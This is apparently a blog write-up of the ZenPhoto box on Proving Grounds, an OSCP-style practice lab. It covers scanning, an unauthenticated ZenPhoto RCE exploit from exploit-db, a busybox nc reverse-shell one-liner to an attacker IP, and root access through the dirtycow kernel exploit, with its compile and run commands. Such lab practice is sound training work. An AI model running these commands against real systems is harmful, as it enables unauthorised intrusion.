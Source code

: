 ```yaml
---
layout: writeup
title: ZenPhoto - Proving Grounds
date: 2024-07-26 13:32:20 +0300
description: A Writeup of the ZenPhoto Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [LainKusunagi, Linux, kernel]
---
```


![ZenPhoto1.png](/assets/images/ZenPhoto/ZenPhoto1.png){: .center-aligned width="600px"}

Here's a writeup for ZenPhoto, an Intermediate Proving Grounds box from the [LainKusanagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). get started with an nmap scan to reveal:
```
PORT     STATE SERVICE
22/tcp   open  ssh
23/tcp   open  telnet
80/tcp   open  http
3306/tcp open  mysql
```
I head to the browser to check port 80, and I see this. 

![ZenPhoto2.png](/assets/images/ZenPhoto/ZenPhoto2.png){: .center-aligned width="600px"}

Not super helpful, so I kick off a directory scan which points toward a /test directory.

![ZenPhoto3.png](/assets/images/ZenPhoto/ZenPhoto3.png){: .center-aligned width="600px"}

Powered by ZenPhoto? You don't say. Viewing the source of this page reveals a version number that might help us to find an exploit.

![ZenPhoto4.png](/assets/images/ZenPhoto/ZenPhoto4.png){: .center-aligned width="600px"}

It shows a few other directories like `/test/zp-core/images/reset_icon.png` which leads us to the admin page of `192.168.245.41/test/zp-core/admin.php` when we try to few all images, but I search for the version and exploit to get started. Unfortunately most of them seem to require authentication, but there is one [RCE Exploit](https://www.exploit-db.com/exploits/18083) that does not. We save that to our directory as 18083.php (like it's titled in searchsploit) and run `php 18083.php 192.168.245.41 /test/`. 

![ZenPhoto5.png](/assets/images/ZenPhoto/ZenPhoto5.png){: .center-aligned width="600px"}

That get us a limited shell, so I decided to use `busybox nc 192.168.45.183 4444 -e /bin/bash` to get something more stable. I catch that shell with penelope, and it's time to enumerate. We can't run sudo, and nothing really sticks out from lse or linpeas beyond kernel exploits, which we usually avoid in labs as they are often not the intended path. We do have `gcc` on this machine though, so we can compile a kernel exploit if we need to. 

And after enumerating for a while I did just that. I checked for cron jobs and running processes as well as a number of files which stuck out as potentially containing credentials, but I couldn't find anything that actually did, plus they would have to come for the root user directly. So ultimately I downloaded [dirtycow](https://github.com/firefart/dirtycow) and transferred it to the target machine. From then I simply followed the instructions (`gcc -pthread dirty.c -o dirty -lcrypt`) and ran the binary (`./dirty`) to create a user called `firefart` with the password I chose (`party1`). After that I simply used `su firefart` and entered my password.

![ZenPhoto6.png](/assets/images/ZenPhoto/ZenPhoto6.png){: .center-aligned width="600px"}

And we're done. Given that the dirtycow exploit is older than the lab machine, maybe it was the intended exploit. Either way, I need to run to the grocery store so I can start dinner, and I'll have to look for alternatives afterward. 

Lessons learned: Not a lot during this box. We use a powerful RCE exploit for one service which allows us to get a shell, and then we use a kernel exploit which we normally avoid during labs like this. Most of the time was spent looking for clues that weren't there on the target (or looking for alternatives to the initial exploit because I didn't realize I could run it from my own command line even though it was a .php file). Overal pretty simple. 

Post-Box Research: Most of the writeups I read actually were some kind of kernel exploits, so while I had options, it does seem like that was the intended path. While I used dirtycow, I also saw PwnKit and [this rds exploit](https://github.com/lucyoa/kernel-exploits/tree/master/rds). 